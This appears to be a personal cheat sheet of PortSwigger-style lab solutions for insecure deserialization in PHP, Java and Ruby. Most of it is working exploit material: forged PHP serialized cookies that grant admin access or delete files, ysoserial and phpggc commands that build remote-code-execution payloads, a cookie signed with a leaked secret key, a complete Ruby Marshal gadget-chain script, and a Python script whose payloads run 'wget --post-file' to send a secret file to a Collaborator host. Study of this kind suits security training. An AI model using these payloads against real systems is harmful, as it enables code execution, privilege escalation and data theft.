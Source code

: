 Checklist:
```
1. Decode Cookie
2. Try Changing values/data types and observer error
3. Are there any paths on the cookies
4. Are there interesting files exposed?
	1. Can you read them appending tilde (~)? GET /libs/CustomTemplate.php~
	2. Can you create a new object that get serialized?
	3. O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
5. Is it a java cookie? Try prebuilt gadgets with ysoserial
6. Is it a php obj cookie? Try gadgets of phpgcc
7. Is it Ruby? Try documented ruby gadgets of vakzz
```
##### Basic Example:
Decoded Cookie:
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
Change admin value to 1 to gain admin privileges

##### Change data types:
```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"iz8si09pn9qkciq8l74c75wmzxazhuqn";}
```
Change the length of user 6 to 13, and the name to administrator, remove access token and set it to i:0
```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```

##### Cookie has a value linked to a path, such as avatar
Change path to a file you want to delete:
```
O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"npc3ok28hj1yx4cwp5cn51rilvztsmtx";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```
When you delete the acc also the path will be deleted

##### Arbitrary Object Injection php
Can you read them appending tilde (~)? GET /libs/CustomTemplate.php~
The file says that we can unlink a file if lock_file_path is present on the template
Create a new object that get serialized:
```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```
Replace it on the cookie b64 encoded

##### Exploiting Java deserialization with Apache Commons
If decode the cookie we see java lang but its not readeable, however, we can abuse pre built gadges:
Also it starts with rO0... to distinguish this cookies
rO0ABXNyAC9sYWIuYWN0aW9ucy5jb21tb24uc2VyaWFsaXphYmxlLkFjY2Vzc1Rva2VuVXNlchlR/OUSJ6mBAgACTAALYWNjZXNzVG9rZW50ABJMamF2YS9sYW5nL1N0cmluZztMAAh1c2VybmFtZXEAfgABeHB0ACBiNzlvcWtraDZnbTM0cWo2ejdkYm5penZjazQzMzdpaXQABndpZW5lcg%3d%3d

Use ysoserial.jar https://github.com/frohoff/ysoserial/releases/tag/v0.0.6
```
/usr/lib/jvm/java-8-openjdk/bin/java -jar ysoserial-all.jar CommonsCollections4 'command' | base64 > payload
cat payload | tr -d '\n'
```
Send the payload url encoded in repeater


##### Exploiting PHP deserialization with a pre-built gadget chain
Notice that when we try to change the cookie value we get a php error:
PHP Fatal error: Uncaught Exception: Signature does not match session in /var/www/index.php:7
A developer comment discloses the location of a debug file at `/cgi-bin/phpinfo.php`
with the secret key of the serialization
```
<td class="e">SECRET_KEY </td><td class="v">ygwtquy6ahff4bjcp8xhkcj4geomohqz 
```

and we get the tech: Symfony 4.3.6 framework
Use phpgcc to exploit this https://github.com/ambionics/phpggc
`./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 | tr -d '\n'`
Construct the php object with the payload and the secret key:
`<?php $object = "OBJECT-GENERATED-BY-PHPGGC"; $secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP"; $cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}'); echo $cookie;`

php php-object-payload.php to get the cookie that is going to be used
send the cookie to solve the lab

##### Exploiting Ruby deserialization using a documented gadget chain

Notice that when decodig username variable is like @username, an indicator of ruby language
Here the script to save:
```rb
require 'base64'
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt") # change command here

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```
Run it with docker:
```
docker run -it --rm --name my-running-script -v "$PWD":/usr/src/myapp -w /usr/src/myapp ruby:3.0 ruby marshalled.rb
```
URL encode the output in the cookie on repeater and send


script to brute force java:
```python
#!/bin/python3
import os, random

burp_collab_link = "6szviq1i5ag33um9o5ya4rox7odg19py.oastify.com" # Used in testing if the command executed # CHANGE

jar_filename = "ysoserial-all.jar"

filename = "exploitsInBase64.txt" # for writing the output
open(filename, 'w').close() # (clear/create) the file

# ysoserial Payloads that will be tried
payloads = ['AspectJWeaver', 'BeanShell1', 'C3P0', 'Click1', 'Clojure', 'CommonsBeanutils1', 'CommonsCollections1', 'CommonsCollections2', 'CommonsCollections3', 'CommonsCollections4', 'CommonsCollections5', 'CommonsCollections6', 'CommonsCollections7', 'FileUpload1', 'Groovy1', 'Hibernate1', 'Hibernate2', 'JBossInterceptors1', 'JRMPClient', 'JRMPListener', 'JSON1', 'JavassistWeld1', 'Jdk7u21', 'Jython1', 'MozillaRhino1', 'MozillaRhino2', 'Myfaces1', 'Myfaces2', 'ROME', 'Spring1', 'Spring2', 'URLDNS', 'Vaadin1', 'Wicket1']


# Generate Exploits
for p in payloads:
    # Distinguish the lookup command by adding a number before the burp collab link.
    rceCommand_nslookup = f"nslookup {p}.{burp_collab_link}"
    rceCommand_exfiltrateFile = f"wget --post-file /home/carlos/secret {p}.{burp_collab_link}"

    cmdOnServer =  rceCommand_exfiltrateFile # CHANGE

    os.system(f"echo \#{p} >> {filename}")

    ####### commment 1 of the commands # CHANGE
    # Gzip the base64
    command = f"/usr/lib/jvm/java-8-openjdk/jre/bin/java -jar {jar_filename} {p} '{cmdOnServer}' | gzip -f | base64 | tr --delete '\\n' >> {filename}"

    # base64 only
    # command = f"/usr/lib/jvm/java-8-openjdk/jre/bin/java -jar {jar_filename} {p} '{cmdOnServer}' | base64 | tr --delete '\\n' >> {filename}"

    os.system(command)

    for i in range(2): os.system(f"echo >> {filename}") # write 4 lines
```